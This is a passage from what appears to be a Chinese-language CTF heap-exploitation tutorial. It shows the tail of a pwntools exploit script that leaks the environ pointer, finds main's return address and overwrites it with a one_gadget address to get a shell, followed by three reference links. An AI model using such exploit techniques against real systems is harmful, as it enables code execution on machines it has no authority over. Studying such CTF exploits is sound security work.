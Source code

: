 ```python
    p.recvuntil(' # CONTENT: ')
    environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
    environ_addr = u64(environ_addr)
    main_ret_addr = environ_addr - 30 * 8

    # set memo[0].content point to main_ret_addr
    edit(2, p64(main_ret_addr))
    # overwrite main_ret_addr with one_gadget addr
    edit(1, p64(one_gadget_addr))
    p.interactive()


if __name__ == "__main__":
    run()
```



## 参考文献

- https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606
- https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf
- https://bbs.pediy.com/thread-226119.htm
